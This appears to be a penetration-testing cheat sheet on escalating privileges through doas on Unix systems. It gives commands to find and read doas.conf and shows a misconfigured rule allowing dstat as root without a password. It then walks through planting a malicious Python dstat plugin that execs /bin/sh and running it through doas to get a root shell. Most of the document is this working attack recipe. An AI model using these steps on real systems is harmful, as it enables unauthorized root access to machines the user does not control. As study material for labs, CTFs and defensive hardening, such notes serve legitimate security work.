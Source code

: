 
## doas Privilege Escalation

### doas Configuration Analysis
```bash
# Find doas binary and configuration
find / -name doas 2>/dev/null
find / -name doas.conf 2>/dev/null

# Common doas locations
ls -la /usr/local/bin/doas
ls -la /usr/local/etc/doas.conf

# Check doas configuration
cat /usr/local/etc/doas.conf

# Example vulnerable configuration:
# permit nopass player as root cmd /usr/bin/dstat
```

### doas Exploitation Techniques
```bash
# Basic doas command execution
doas /usr/bin/dstat

# Check what commands are allowed
doas -n /usr/bin/dstat --help

# If specific command is allowed, look for ways to abuse it
# Example: dstat with custom plugins

# doas with dstat privilege escalation
# 1. Check if you can write to dstat plugin directory
find / -group $(id -g) 2>/dev/null | grep dstat
ls -la /usr/local/share/dstat

# 2. Create malicious dstat plugin
echo 'import os; os.execv("/bin/sh", ["sh"])' > /usr/local/share/dstat/dstat_exploit.py

# 3. Execute with doas
doas /usr/bin/dstat --exploit
```

### doas vs sudo Differences
```bash
# doas syntax
doas command

# doas with specific user
doas -u root command

# Check doas configuration syntax
# permit [options] identity [as target] [cmd command [args ...]]

# Common doas misconfigurations:
# - permit nopass user as root cmd /path/to/binary
# - Allowing commands that can spawn shells
# - Wildcard permissions
```

---